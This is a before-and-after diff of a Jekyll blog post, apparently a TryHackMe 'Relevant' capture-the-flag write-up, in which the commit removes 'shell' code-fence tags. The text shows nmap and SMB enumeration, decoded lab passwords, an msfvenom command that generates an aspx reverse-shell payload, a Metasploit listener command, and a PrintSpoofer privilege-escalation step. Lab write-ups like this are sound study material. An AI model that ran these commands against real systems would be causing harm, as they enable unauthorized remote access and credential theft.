

Before and after one commit to 7a336e6e/7a336e6e.github.io, a Jekyll site: the page built from _posts/2020-09-24-thm-relevant.md, in a window 1280 px wide and 1400 px high, scrolled down 442 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
updated markdown formatting

````diff
--- a/_posts/2020-09-24-thm-relevant.md
+++ b/_posts/2020-09-24-thm-relevant.md
@@ -17,7 +17,7 @@ The description of this machine is quite nice, having a roleplay in it to put yo
 # Recon
 Starting off with a recon on the machine to see what ports are open, what services are active, etc.
 
-```shell
+```
 # Nmap 7.80 scan initiated Wed Sep 23 20:07:03 2020 as: nmap -sS -sV -oA relevant-vuln --script=default,vuln -p- -T5 10.10.155.253
 Nmap scan report for 10.10.155.253
 Host is up (0.079s latency).
@@ -120,7 +120,7 @@ Moving on we see a few other ports open...
 
 ## 445
 In the above scan we see SMB is up and running with open ports on this machine. Running a basic `smbclient` list reveals the following:
-```shell
+```
 $ smbclient -L \\\\10.10.236.33\\
 Enter WORKGROUP\z3nn's password:
         Sharename       Type      Comment
@@ -133,7 +133,7 @@ SMB1 disabled -- no workgroup available
 ```
 
 The `nt4wrksv` folder looks interesting, if we connect to it we can see it contains the following file:
-```shell
+```
 $ smbclient \\\\10.10.236.33\\nt4wrksv
 Enter WORKGROUP\z3nn's password:
 Try "help" to get a list of possible commands.
@@ -146,13 +146,13 @@ smb: \> ls
 ```
 
 Retrieving the `passwords.txt` file we get access to some base64 encoded information:
-```shell
+```
 [User Passwords - Encoded]
 Qm9iIC0gIVBAJCRXMHJEITEyMw==
 QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk
 ```
 If we run it through a base64 decoder we get the following:
-```shell
+```
 [User Passwords - Encoded]
 Bob - !P@$$W0rD!123
 Bill - Juw4nnaM4n420696969!$$$
@@ -166,7 +166,7 @@ On first impression this looks like a copy of port 80, just a bare IIS server ru
 Running `gobuster` on it reveals there is a directory /nt4wrksv/ ... just like the on on SMB, if we actually try to access the file from SMB via the browser we can using the right path: `/nt4wrksv/passwords.txt`... Now this is interesting.
 
 Running `smbmap` on the server we can see we have write access to the `/nt4wrksv/` location
-```shell
+```
 $ smbmap -H 10.10.125.76 -u 'z3nn' -p ''
 [+] Guest session       IP: 10.10.125.76:445    Name: unknown
         Disk                                                    Permissions     Comment
@@ -179,14 +179,14 @@ $ smbmap -H 10.10.125.76 -u 'z3nn' -p ''
 
 # Exploit
 Now that we have knowledge of the vulnerability and our entry point in the system it's time to exploit it... I used [PenTest.WS](https://pentest.ws/) to create a `MSF Venom` payload
-```shell
+```
 msfvenom -p windows/x64/shell/reverse_tcp LHOST=1.1.1.1 LPORT=8585 -f aspx -o reverso.aspx
 ```
 
 Upload payload to SMB server in `/nt4wrksv/` location
 
 Start a netcat listener or... use the PenTest.WS `msfconsole` command it creates for you to open as a listener to this payload:
-```shell
+```
 msfconsole -x "use exploit/multi/handler; set PAYLOAD windows/x64/shell/reverse_tcp; set LHOST 1.1.1.1; set LPORT 8585; run"
 ```
 
@@ -200,7 +200,7 @@ PrivEsc was a bit funky, I did not expect it to be so easy... this machine was a
 Thanks to `TheMayor`'s github repo we can download an already built `PrintSpoofer.exe` from here: [repo](https://github.com/dievus/printspoofer)
 
 Upload that to the SMB server as we did with the reverse shell and run it...
-```shell
+```
 c:\Users\Bob\Desktop>whoami
 whoami
 iis apppool\defaultapppool
````
Also changed, not shown: _posts/2020-09-18-htb-magic.md (+2 -2 lines), _posts/2020-09-19-pentest-cheatsheet.md (+3 -3 lines).
